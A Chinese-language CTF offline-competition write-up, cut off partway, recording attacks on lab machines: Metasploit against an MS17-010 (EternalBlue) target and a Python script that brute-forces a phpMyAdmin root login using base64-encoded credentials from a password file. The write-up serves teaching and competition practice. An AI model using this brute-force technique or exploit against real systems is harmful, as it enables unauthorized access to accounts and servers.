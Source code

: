 > 原文链接: https://www.anquanke.com//post/id/98653 


# 两次ctf线下赛渗透测试及攻防记录


                                阅读量   
                                **227806**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t0199ab2fa8af5c9e0f.jpg)](https://p2.ssl.qhimg.com/t0199ab2fa8af5c9e0f.jpg)

> 本篇原创文章参加双倍稿费活动，预估稿费为800元，活动链接请点[此处](https://www.anquanke.com/post/id/98410)

> 本文主要记录某两次线下赛的部分解题过程。涉及预留后门、sql注入等知识点，做了一些解题记录分享给大家。



## 线下赛1

### <a class="reference-link" name="%E6%B8%97%E9%80%8F%E9%9D%B6%E6%9C%BA1%E2%80%9410.10.10.131"></a>渗透靶机1—10.10.10.131

使用nessus扫描靶机，发现靶机存在ms17-010漏洞，这个是永恒之蓝的漏洞<br>
于是使用metasploit进行攻击

[![](https://p5.ssl.qhimg.com/t014c7be1a24b9e89af.png)](https://p5.ssl.qhimg.com/t014c7be1a24b9e89af.png)

### <a class="reference-link" name="%E6%B8%97%E9%80%8F%E9%9D%B6%E6%9C%BA2%E2%80%9410.10.10.254"></a>渗透靶机2—10.10.10.254

0x01御剑扫描发现存在phpmyadmin目录，并且可以访问，抓包分析请求包，然后写python脚本进行登录爆破。<br>
请求包是这样的，留意红色框框，base64解码之后可以发现其实就是我输入的用户名和密码、

[![](https://p0.ssl.qhimg.com/t01c8acd9d4cec6e225.png)](https://p0.ssl.qhimg.com/t01c8acd9d4cec6e225.png)

[![](https://p2.ssl.qhimg.com/t01c9b2f35eb738ea67.png)](https://p2.ssl.qhimg.com/t01c9b2f35eb738ea67.png)

直接使用burp爆破后被限制访问，后来知道它限制了使用burp爆破，于是写脚本爆破[代码]

```
#coding=utf-8
import requests
import base64

def get_b64_u_p(passwdFile): 
    username='root'
    pF=open(passwdFile,'r')
    for line in pF.readlines():
        password=line.strip('r').strip('n')
        print "[+] Trying: "+username+"/"+password
        if(login(base64.b64encode(username+':'+password))):
            break

def login(b64_u_p):
    url="http://10.10.10.254/phpMyAdmin/";
    headers=`{`
        'Host': '10.10.10.254',
```